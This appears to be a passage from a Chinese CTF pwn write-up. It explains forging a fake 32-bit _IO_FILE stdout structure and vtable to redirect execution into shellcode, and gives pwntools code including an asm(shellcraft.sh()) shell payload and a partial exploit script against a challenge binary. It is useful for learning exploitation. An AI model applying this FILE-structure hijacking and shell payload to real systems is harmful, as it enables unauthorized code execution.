 ```
		0x48:'_lock',
		0x4c:'_offset',
		0x54:'_codecvt',
		0x58:'_wide_data',
		0x5c:'_freeres_list',
		0x60:'_freeres_buf',
		0x64:'__pad5',
		0x68:'_mode',
		0x6c:'_unused2',
		0x94:'vtable'
	},
#IO_FILE中有个_vtable_offset字段，也就是说通过_IO_FILE指针寻找_IO_jump_t函数表指针的时候不是直接+0x94得到的，而是通过+0x94+offset得到的，之前我们输入的offset可能会很大，导致访存错误，所以我们伪造的时候要注意偏移0x46处的内容。
```

我们要伪造的有两部分，一个是IO_FILE，一个是vtable，最后写上shellcode。
下面时候IO_FILE：

```
fake_IO_stdout = p32(0xfbad8000) + p32(0x0804A44C)*8 + p32(0)*4
fake_IO_stdout += p32(0x0804A44C) + p32(1) + p32(0) + p32(0xffffffff)
fake_IO_stdout += p32(0) + p32(0x0804A44C) + p32(0xffffffff)*2
fake_IO_stdout += p32(0) + p32(0x0804A44C) + p32(0)*3
fake_IO_stdout += p32(0xffffffff) + p32(0)*10 + p32(fake_vtable)
fake_IO_stdout += p32(0x0804A44C) + p32(0x0804A44C)
#注：0x0804A44C这个地址是随便给的，下面那个构造也是可以的
```

```
fake_IO_stdout = p32(0xfbad8000) + p32(0xffffffff)*8 + p32(0)*4
fake_IO_stdout += p32(0xffffffff) + p32(1) + p32(0) + p32(0xffffffff)#stdin_addr 0x0804A44C
fake_IO_stdout += p32(0) + p32(0xffffffff) + p32(0xffffffff)*2
fake_IO_stdout += p32(0) + p32(0xffffffff) + p32(0)*3
fake_IO_stdout += p32(0xffffffff) + p32(0)*10 + p32(fake_vtable)
fake_IO_stdout += p32(0xffffffff) + p32(0xffffffff)
```

下面是vtable+shellcode：

```
payload = 'a'*28 + p32(0x0804A24C + 0x120) + asm(shellcraft.sh())
```

详细脚本如下：

```
from pwn import *

context.binary = "./pwn1"
context.log_level="debug"

p = process("./pwn1")
#p = remote('47.106.243.235',8888)

p.recvuntil('format\n')
p.sendline('a')

fake_IO_stdout_addr = 0x0804A24C
fake_vtable = 0x0804A24C + 0x100 
#0x0804A44C
fake_IO_stdout = p32(0xfbad8000) + p32(0xffffffff)*8 + p32(0xffffffff)*4
fake_IO_stdout += p32(0xffffffff) + p32(0xffffffff) + p32(0xffffffff) + p32(0xffffffff)#stdin_addr 0x0804A44C
fake_IO_stdout += p32(0) + p32(0xffffffff) + p32(0xffffffff)*2
fake_IO_stdout += p32(0) + p32(0xffffffff) + p32(0)*3
fake_IO_stdout += p32(0xffffffff) + p32(0)*10 + p32(fake_vtable)
fake_IO_stdout += p32(0xffffffff) + p32(0xffffffff)
```